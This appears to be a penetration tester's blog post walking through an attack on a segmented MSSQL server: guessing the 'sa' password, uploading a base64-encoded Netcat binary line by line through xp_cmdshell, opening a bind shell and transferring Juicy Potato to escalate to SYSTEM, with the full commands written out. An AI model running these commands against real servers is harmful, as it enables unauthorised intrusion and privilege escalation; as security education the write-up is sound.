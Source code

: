 ```yaml
---
layout: post
title: Exfiltrating files using MSSQL
excerpt_separator: <!--more-->
---
```


A scenario where we have to upload files to a server whose MSSQL credentials we know (so we have remote code execution) but the server is in other network. For that, we will transfer the base64-encoded file line by line.

<!--more-->


We have a jump server which allows us to access a Kali machine, used to scan a remote network. 

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image1.png)

From Kali, we see there is a MSSQL server and after guessing the credentials of the user "sa", we have RCE there. 

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image2.png)

However, the firewall rules make it impossible to download files from the jump server, the Kali machine or Internet:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image3.png)

We have a foothold in the netwotk but the firewalls configutaion and network segmentation make it a little difficult to continue. However, privilege escalation in this machine would be easy, as the account running the MSSQL server is a service account with the *SeImpersonatePrivilege* privilege and the OS is Windows Server 2016, being possible to escalate to SYSTEM with the Juicy Potato exploit:

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image4.png)

So, how could we get a reverse shell or upload the Juicy Potato binary? If we check blogs [like this one](https://book.hacktricks.xyz/exfiltration), they mention certutil to base64-encode and then decode the files:

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

So the idea is to encode a Windows binary, paste the content with mssqlclient.py and then decode it in the server, hopefully not triggering an antivirus, EDR or similar in the process. 

So first let's encode a Netcat binary:

```
certutil -encode nc.exe nc.txt
```

Generating a file like this one:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image5.png)

But with the mssqlclient.py script I had problems with the length of the encoded payload. However, after pasting the payload in a Linux machine, the payload can be splitted and generate commands to upload the file line by line:

```
while read p; do a=(echo $p); echo "xp_cmdshell echo $a >> c:\\\\windows\\\\tasks\\\\nc.txt"; echo; done < /tmp/nc.txt > commands.txt
```

We get a file ("commands.txt") with one command per line of the encoded payload:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image6.png)

After copying all the content of the file and pasting it in the command line with a mssqlclient.py session open, we will generate a text file in c:\windows\tasks, which can be decoded then with:

```
xp_cmdshell certutil -decode c:\windows\tasks\nc.txt c:\windows\tasks\nc.exe
```

Luckily, after uploading this file I realized that there was not any antivirus in the machine and the Windows firewall was disabled, so it was as easy as uploading the file using bind shells insted of reverse shells. So in the compromised server the command was:

```
xp_cmdshell c:\windows\tasks\nc.exe -lvp 8888 > c:\windows\tasks\juicypotato.exe
```

And from the Kali machine:

```
nc -nv 10.100.10.10 8888 < juicypotato.exe
```

With those two binaries and being able to create bind shells, it is fairly easy to become SYSTEM, for example creating a second bind shell. And with that, we would have succeded!
